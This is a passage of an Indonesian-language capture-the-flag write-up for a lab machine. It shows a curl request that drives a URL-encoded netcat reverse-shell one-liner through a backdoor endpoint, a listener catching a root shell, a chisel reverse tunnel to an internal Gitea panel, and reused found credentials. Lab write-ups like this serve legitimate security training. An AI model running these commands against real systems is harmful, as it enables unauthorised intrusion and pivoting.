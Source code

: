 ```terminal
❯ curl 'http://10.10.11.164/yupybackdoor?cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202>%261|nc%2010.10.14.10%201337%20>/tmp/f'
```
```terminal
❯ sudo netcat -lvnp 1337
Connection received on 10.10.11.164
/app # whoami
root
/app # ifconfig
          inet addr:172.17.0.5
```

### Kami memiliki shell sebagai root dalam wadah, tetapi sekarang kami memiliki koneksi ke port 3000 dari mesin nyata yang kami lihat disaring, jadi kami akan mengunggah pahat dan mengirim port ke mesin lokal kami

```terminal
❯ chisel server --reverse --port 8000
2022/08/22 14:33:07 server: Reverse tunnelling enabled
2022/08/22 14:33:07 server: Listening on http://0.0.0.0:8000
2022/08/22 14:37:20 server: session#1: tun: proxy#R:3000=>172.17.0.1:3000: Listening
```
```terminal
/app # ./chisel client 10.10.14.10:8000 R:3000:172.17.0.1:3000
2022/08/22 14:37:20 client: Connecting to ws://10.10.14.10:8000
2022/08/22 14:37:21 client: Connected
```

### Jika kita membuka localhost di browser pada port 3000 kita melihat panel gitea kita dapat menggunakan kredensial yang kita temukan di awal dev01:Soulless_Developer#2022

![Gambar3](./img/OpenSource/3.png "Gambar3")

### Sudah sebagai dev01 kita dapat melihat repositori "home-backup" yang memiliki beberapa kunci ssh yang dapat kita coba sambungkan

